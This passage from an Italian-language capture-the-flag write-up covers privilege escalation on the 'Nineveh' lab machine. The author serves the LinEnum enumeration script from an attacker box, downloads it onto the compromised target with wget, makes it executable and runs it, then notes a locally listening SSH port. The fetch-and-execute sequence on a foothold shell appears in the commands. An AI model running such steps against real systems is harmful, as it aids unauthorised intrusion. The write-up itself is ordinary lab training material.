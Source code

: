
## Root

Ci scarichiamo LinEnum.sh sulla macchina target

Come prima cosa tiriamo su un server nella cartella dove è presente LinEnum.sh

```bash
┌──(root㉿kali)-[/home/kali/tool/PrivEsc/LinEnum]
└─# python -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

e dalla macchina target lo scarichiamo, gli diamo i permessi di esecuzione con chmod.

```bash
www-data@nineveh:/tmp$ wget http://10.10.14.34/LinEnum.sh
--2023-06-23 04:01:00--  http://10.10.14.34/LinEnum.sh
Connecting to 10.10.14.34:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

LinEnum.sh          100%[===================>]  45.54K  --.-KB/s    in 0.1s    

2023-06-23 04:01:00 (468 KB/s) - 'LinEnum.sh' saved [46631/46631]

www-data@nineveh:/tmp$ ls
LinEnum.sh
f
systemd-private-4bf097846ffd4a6f90e70e21dcd2e6b2-systemd-timesyncd.service-VLza0Q
vmware-root
www-data@nineveh:/tmp$ chmod +x LinEnum.sh 
```

e lo eseguiamo 

```
www-data@nineveh:/tmp$ ./LinEnum.sh 

...<snip>....

[-] Listening TCP:                 
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name                                                                 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN       
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      tcp6       0      0 :::22                   :::*                    LISTEN                        
...<snip>...
```

Nella nostra scansione nmap, la porta 22 non è stata segnalata come aperta, tuttavia, lo script LinEnum la segnala come in ascolto su localhost. Non sono sicuro di cosa fare con questa informazione, ma la terrò in mente nel caso in cui non trovassi altro modo per aumentare i privilegi.
Quindi, proviamo con pspy.
